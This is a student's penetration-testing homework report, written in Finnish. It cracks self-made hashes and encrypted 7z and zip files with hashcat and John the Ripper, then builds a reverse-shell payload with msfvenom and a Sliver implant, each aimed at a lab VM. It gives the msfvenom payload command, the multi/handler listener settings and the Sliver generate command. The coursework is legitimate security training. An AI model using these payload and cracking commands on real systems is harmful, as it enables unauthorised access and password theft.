

<!--- metadata

title: H5 - Syyskuu2025!
date: 2025-09-21
slug:
id: ICI005AS3A-3005
week: Week 38
summary: Harjoituksessa kokeiltiin salasanojen murtamista Hashcatilla ja John the Ripperillä, purettiin salattuja tiedostoja sekä luotiin reverse shell -haittaohjelma msfvenomilla ja Sliverillä. Tehtävät havainnollistivat salasanojen ja tiedostojen suojaamisen tärkeyttä.
tags: [ "ICI005AS3A-3005", "Tunkeutumistestaus"]

--->

## x) Lue/katso ja tiivistä. (Tässä x-alakohdassa ei tarvitse tehdä testejä tietokoneella, vain lukeminen tai kuunteleminen ja tiivistelmä riittää. Tiivistämiseen riittää muutama ranskalainen viiva kustakin artikkelista. Kannattaa lisätä myös jokin oma ajatus, idea, huomio tai kysymys.)

## - Karvinen 2022: [Cracking Passwords with Hashcat](https://terokarvinen.com/2022/cracking-passwords-with-hashcat/)

## - Karvinen 2023: [Crack File Password With John](https://terokarvinen.com/2023/crack-file-password-with-john/)

## - € Santos et al 2017: Security Penetration Testing - The Art of Hacking Series LiveLessons: [Lesson 6: Hacking User Credentials](https://learning.oreilly.com/videos/security-penetration-testing/9780134833989/9780134833989-sptt_00_06_00_00) (8 videos, about 30 min)

- Hashcat aineistossa käyttiin läpi haschatin asennus, perus käyttö ja miten esimerkiksi `hashid` ominaisuutta käytettään. Myös avattiin eri asioita komennoista mitä ne tarkoittaa ja sit miten näkee vastauksen.

- Käytiin läpi manuaalinen asennusohje John The Ripper työkalulle. Sitten asennettiin kohde minkä salasana pitää purkaa ja lopuksi kerrottiin mitä kaikkia formaatteja ´John The Ripperillä´ voi murtaa.

- Security Penetration Testing video sarjassa käytiin läpi, miten autentikointi ja auktorisointi toimivat, sekä miten niitä voidaan hyökätä vastaan.

- Sitten selitetään eri tavoin salauksia ja tiivisteitä, esimerkkeinä MD5 ja SHA256. Käydää nläpi myös eri työkalujen käyttöä kuten hashcat ja john the ripper

- Ja lopuks annetaan perus ohjeita miten parantaaa salasana turvallisuutta käyttämällä esim. saltteja ja 2FAta.

---

## a) Asenna Hashcat ja testaa sen toiminta murtamalla esimerkkisalasana

Ei atrvinnut asentaa hashcattia, koska se löytyi jo valmiiksi kalin työkaluista niin aloin hommiin heti. Tässä kohtaa en kuitenkaan ollut varma että mitä tarkoitettiin esimerkki salasanalla. Tarkoitettiinko sillä oppaassaa ollutta salasanaa vai jotakin muuta? 

Noh päätin käyttää oppaassa ollutta esimerkkiä tässä tehtävässä. Aloitin tekemällä hashin itselleni käyttämällä komentoa `echo -n "summer" | md5sum | yank-cli`. Tässä echo printtaa sanan summer jonka md5sum käyttää hashin tekemiseen ja yank-cli vaan tekee siitä kopioitavan että sitä on helpompi käsitellä.

Sitten vain komennolla `hashid -m [hash]` niin saadaan tietää, mitä algoritmia se on mahdollisesti käytätnyt. Ja tämä kun on esimerkki niin me tiedetään se jo, mutta todennäköinen tässä on toi `MD5` pelkän tän vastauksen perusteella.


Tässä kohtaa me tiedetäänkin kaikki, niin voidaan lähteä murtamaan. Eli komennolla `hashcat -m 0 [hash] rockyou.txt -o solved` ja sieltä se ajoi sen ja löytyi salasana. Siitä tallentui solved tiedosto, missä oli sitten hash ja siihen vastaava salasana.



---

## c) Asenna John the Ripper ja testaa sen toiminta murtamalla jonkin esimerkkitiedoston salasana

Tässä tehtävässä sama homma. Eli kalissa jo löytyy John The Ripper työkalu. Ja tarkistin vielä että oli varmasti tämä Jumbo versio niin oli asennettuna `John The Ripper 1.9.0 Jumbo`

Sitten asensin oppaassa olevan harjoittelu kohteen. Ja sitten siirsin hashit .zip tiedostosta uuteen tiedostoon `tero.zip.hash`.


Sitten vaan murrettiin komennolla `john tero.zip.hash`. Näin me saadaan tietää salasana ja me päästään avaamaan tiedosto.


---

## e) Tiedosto. Tee itse tai etsi verkosta jokin salakirjoitettu tiedosto, jonka saat auki. Murra sen salaus. (Jokin muu formaatti kuin aiemmissa alakohdissa kokeilemasi)

Tässä kohdassa koitin miettiä jotakin arvokasta kohdetta. Ja kun kaikki formaatit mitä `John The Ripper` tukee on valtava, tässä joitakin niistä:

```md
descrypt, bsdicrypt, md5crypt, md5crypt-long, bcrypt, scrypt, LM, AFS,tripcode, AndroidBackup, adxcrypt, agilekeychain, aix-ssha1, aix-ssha256,aix-ssha512, andOTP, ansible, argon2, as400-des, as400-ssha1, asa-md5,AxCrypt, AzureAD, BestCrypt, BestCryptVE4, bfegg, Bitcoin, BitLocker,bitshares, Bitwarden, BKS, Blackberry-ES10, WoWSRP, Blockchain, chap,Clipperz, cloudkeychain, dynamic_n, cq, CRC32, cryptoSafe, sha1crypt,sha256crypt, sha512crypt, Citrix_NS10, dahua, dashlane, diskcryptor, Django,django-scrypt, dmd5, dmg, dominosec, dominosec8, DPAPImk, dragonfly3-32,dragonfly3-64, dragonfly4-32, dragonfly4-64, Drupal7, eCryptfs, eigrp,electrum, EncFS, enpass, EPI, EPiServer, ethereum, fde, Fortigate256,Fortigate, FormSpring, FVDE, geli, gost, gpg, HAVAL-128-4, HAVAL-256-3, hdaa,hMailServer, hsrp, IKE, ipb2, itunes-backup, iwork, KeePass, keychain,keyring, keystore, known_hosts, krb4, krb5, krb5asrep, krb5pa-sha1, krb5tgs,krb5-17, krb5-18, krb5-3, kwallet, lp, lpcli, leet, lotus5, lotus85, LUKS,MD2, mdc2, MediaWiki, monero, money, MongoDB, scram, Mozilla, mscash,mscash2, MSCHAPv2, mschapv2-naive, krb5pa-md5, mssql, mssql05, mssql12,multibit, mysqlna, mysql-sha1, mysql, net-ah, nethalflm, netlm, netlmv2,net-md5, netntlmv2, netntlm, netntlm-naive, net-sha1, nk, notes, md5ns,nsec3, NT, o10glogon, o3logon, o5logon, ODF, Office, oldoffice,OpenBSD-SoftRAID, openssl-enc, oracle, oracle11, Oracle12C, osc, ospf,Padlock, Palshop, Panama, PBKDF2-HMAC-MD4, PBKDF2-HMAC-MD5, PBKDF2-HMAC-SHA1,PBKDF2-HMAC-SHA256, PBKDF2-HMAC-SHA512, PDF, PEM, pfx, pgpdisk, pgpsda,pgpwde, phpass, PHPS, PHPS2, pix-md5, PKZIP, po, postgres, PST, PuTTY,pwsafe, qnx, RACF, RACF-KDFAES, radius, RAdmin, RAKP, rar, RAR5, Raw-SHA512,Raw-Blake2, Raw-Keccak, Raw-Keccak-256, Raw-MD4, Raw-MD5, Raw-MD5u, Raw-SHA1,Raw-SHA1-AxCrypt, Raw-SHA1-Linkedin, Raw-SHA224, Raw-SHA256, Raw-SHA3,Raw-SHA384, restic, ripemd-128, ripemd-160, rsvp, RVARY, Siemens-S7,Salted-SHA1, SSHA512, sapb, sapg, saph, sappse, securezip, 7z, Signal, SIP,skein-256, skein-512, skey, SL3, Snefru-128, Snefru-256, LastPass, SNMP,solarwinds, SSH, sspr, Stribog-256, Stribog-512, STRIP, SunMD5, SybaseASE,Sybase-PROP, tacacs-plus, tcp-md5, telegram, tezos, Tiger, tc_aes_xts,tc_ripemd160, tc_ripemd160boot, tc_sha512, tc_whirlpool, vdi, OpenVMS, vmx,VNC, vtp, wbb3, whirlpool, whirlpool0, whirlpool1, wpapsk, wpapsk-pmk,xmpp-scram, xsha, xsha512, zed, ZIP, ZipMonster, plaintext, has-160,HMAC-MD5, HMAC-SHA1, HMAC-SHA224, HMAC-SHA256, HMAC-SHA384, HMAC-SHA512,dummy, crypt
```

Päädyin itse valitsemaan 7z encryptatun tiedoston, koska joskus olen tätä käytätnyt ja kokenut hyväksi, niin halusin tietää onko oikeasti hyvä.

### Tiedoston luonti

Komennolla: `echo "Super big secret!" > secret.txt` luodaan tiedosto missä on salaisuus. Tämä salataan komennolla: `7z a -p secret.7z secret.txt`. Kun antoi tämän komennon, syötettiin salasana millä tiedosto salattiin. Tässä annoin salasanaksi `yogibear`. `-p` on tämä optio että halutaan laittaa salasana.

Tarkistin myös että salasana löytyy rockyou.txt tiedostosta.

### Tiedoston murtaminen

Sitten murtamaan pääsee tekemällä tiedostosta teksti tiedoston john the ripperin apu työkaluilla. Ensimmäiseksi me tehtiin .7z tiedostosta tekstitiedosto komennolla: `7z2john secret.7z > secret.7z.hash`. Sitten me lähettiin murtaa tiedostoa komennolla: `john --wordlist=rockyou.txt secret.7z.hash`.

Valitsin tahallaan heikon salasanan heti rockyou tiedoston alusta, koska tän koko sanalistan läpiukäymisessä tän hetkisellä virtuali raudalla olisi kestänyt kolme ja puoli päivää.


Tässä tulee perjaate erittäin selkeeksi, mutta todellisuudessa kun salaukset ovat kovia, niin pitää tehdä kunnon kirjastot kohteeseen sopiviksi ja käyttää kunnon laskenta tehoa, jos haluaa mitään saada aikaseksi.

---

## f) Tiiviste. Tee itse tai etsi verkosta salasanan tiiviste, jonka saat auki. Murra sen salaus. (Jokin muu formaatti kuin aiemmissa alakohdissa kokeilemasi. Voit esim. tehdä käyttäjän Linuxiin ja murtaa sen salasanan.)

Tein linuxiin käyttäjän, käyttöliittymän avulla ja annoin sille salasanaksi `johnjohnjohn`. Sitten lähdin hakemaan tiivistettä shadow tiedostosta. Tässä koin kuitnekin ongelmia kun sain tiivisteet hashcattiin niin selvisi, että haschat ei tue yescryptiä (kyseistä algoritmia mitä, jotkut linux distrot käyttää käyttäjä salasanojen hashaamiseksi) ja että yescrypt on muutenkin erityisen tehokas offline salasana murtamista vastaan.

Päätin sitten vain tehdä paikallis tiivisteen ja murtaa sen vain koska mulla ei ole resursseja ajaa john the ripperiä loputtomasti vaikka se mahdollisesti tukiskin tämän salauksen murtamista.


Sitten tein komennolla `openssl passwd -6 "johjohjohn" > hash.txt` uuden hashin mikä käyttää SHA-512 salausta. Ja ajoin sen normaalisti. Hashcat on onneksi paljon nopeampi tässä kuin john the ripper, niin tässä pitäisi mennä noin 7min, kun salasana löytyy.

Tämä siksi koska salasana `johnjohnjohn` löytyy riviltä `907926` rockyou.txt tiedostossa ja hashcat ajaa noin `100 tuhatta riviä 45 sekunttiin`.

Ja sieltä löytyi salasana odotetusti. Taas kerran mielenkiintonen tehtävä, mutta pitäisi joskus tehdä joku tehtävä missä, hyödyntää oikeasti laskentatehoa jossakin oikeassa salauksessa, mutta vain heikolla salasanalla.


Melko nappiin osuin aika arviolla, mutta salasana löytyi.

[(Wikipedia)](https://en.wikipedia.org/wiki/Yescrypt)

---

## g) Tee msfvenom-työkalulla haittaohjelma, joka soittaa kotiin (reverse shell). Ota yhteys vastaan metasploitin multi/handler -työkalulla

## - Haittaohjelma ei saa olla automaattisesti leviävä. Msfvenom tekee tyypillisillä asetuksilla ohjelman, joka avaa reverse shellin, kun sen ajaa, mutta joka ei leviä eikä tee muutenkaan mitään itsestään

## - Raporttiin riittävät pelkät komennot ja raportti haitakkeen tekemisestä, itse binääriä ei ole pakko laittaa verkkoon. Mikäli laitat binäärin verkkoon, pakkaa se salakirjoitettuun zip-pakettiin ja laita salasanaksi "infected". Latauslinkin yhteydessä on oltava selkeä varoitus siitä, että kyseessä on haittaohjelma (malware), jota ei tule ajaa tuotantokoneilla. Salasanan voit halutessasi kertoa varoitusten yhteydessä

## - Palvelimen päässä pitää olla reikä tulimuurissa. Reverse shell tarkoittaa, että palvelin on hyökkäyskoneella

Ensiummäiseksi lähdin lukemaan msfvenom man sivuja ja help sivuja. Melko nopeasti selvisi, miten ohjelma toimii. Käytin tässä vaiheessa apuna myös ChatGPT:tä selittämään asioita mulle.

Noh lähdin kuitnekin tekemään malwarea msfvenomissa komennolla: `msfvenom -p linux/x64/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f elf > malware.elf`. Tässä `-p` tarkentaa payloadin mikä on tällä hetkellä linux reverce_tcp shell. Sitten sinne määritettiin normaalisti LHOST ja LPORT ja lopuksi `-f` mikä kertoo tiedoston formaatin.


Tämän jälkeen meidän pitää tehdä kuuntelija msfconsolessa jotta me saadaan vastausta ja päästään oikeasti testaamaan tätä reverse shelliä. Komennoilla me luodaan kuuntelija:

```sh
use exploit/multi/handler
set payload linux/x64/shell/reverse_tcp
set LHOST 127.0.0.1
set LPORT 4444
run
```

Tämän jälkeen ei tarvinnut enään kuin vaan avata toinen terminali, ajaa tiedosto ja reverse shelli tapahtui. Olin ottanu testin ajaksi koneen pois netistä, niin piti käyttää testissä loopback osoitetta ja kahta terminalia.

Kuvasta kuitenkin näkee, että yhteys muodostui ja sitä testsinkin, kunnes prosessin sulki, niin reverse shell sulkeutui myös.


[(Dissanayaka 23.3.2025)](https://hacksland.net/reverse-tcp-shell-with-metasploit/)

---

## h) Vapaaehtoinen: Tee Sliver-työkalulla haittaohjelma, joka soittaa kotiin

Eli tässä lähdin asentamaan sliveriä komennolla:

```sh
curl https://sliver.sh/install | sudo bash
```

Sitten avasin ohjelman komennolla `sliver` ja kun pääsin ohjelmaan, niin ajoin `version` option, että sain tietää, mitä versiota mä käytän.


Sitten mä vain seurasin help ohjeessa olleita ohjeita, miten ohjelma toimii ja loin reverce shell implantin komennolla: `generate --http 8080 --os linux --evasion`.


Kun tämä oli luotu avasin toisen virtuaali koneen ja avasin ssh serverin, jotta sain siirrettyä tiedoston koneelta toiselle komennolla:

```sh
scp /home/kali/work/OPTIMISTIC_CHAOS kali@192.168.67.131:/tmp/
```


Tämän jälkeen pääsin testaamaan ohjelmaa, ja lähdinkin siis ajamaan ohjelmaa kohde koneella. Nopeasti kuitenkin selvisi, että kun sessiota ei syntynyt oli jossakin vika. Todennäköisesti vika oli siinä miten olin asentanu ja configuroinut sliverin, mutta koska kyseessä ei ollut 1.6 versio, niin en löytänyt kunnon ohjeita.

En kuitenkaan jatkanut tästä pidemmälle, koska mulla loppui aika kesken ja olin käyttänyt ongelmien ratkaisuun monia tunteja. Palaan sliveriin kuitenkin kun 1.6 version ollaan saatu takasin tuotantoon.

---

### Lähteet

#### 1. Tero Karvinen 2025. Tunkeutumistestaus 2025 alkusyksy. Luettavissa: [[https://terokarvinen.com/tunkeutumistestaus/]] Luettu: 20.9.2025

#### 2. Tero Karvinen 2022. Cracking Passwords with Hashcat. Luettavissa: [[https://terokarvinen.com/2022/cracking-passwords-with-hashcat/]] Luettu: 20.9.2025

#### 3. Tero Karvinen 2023. Crack File Password With John. Luettavissa: [[https://terokarvinen.com/2023/crack-file-password-with-john/]] Luettu: 20.9.2025

#### 4. Wikipedia 2025. yescrypt. Luettavissa: [[https://en.wikipedia.org/wiki/Yescrypt]] Luettu: 21.9.2025

#### 5. Dissanayaka 23.3.2025. Reverse TCP shell with Metasploit. Hacksland blogi. Luettavissa: [[https://hacksland.net/reverse-tcp-shell-with-metasploit/]] Luettu: 21.9.2025

#### 6. € Santos et al 2017: Security Penetration Testing - The Art of Hacking Series LiveLessons: Lesson 6: Katsottavissa: [[https://learning.oreilly.com/videos/security-penetration-testing/9780134833989/9780134833989-sptt_00_06_00_00]] Katsottu: 21.9.2025
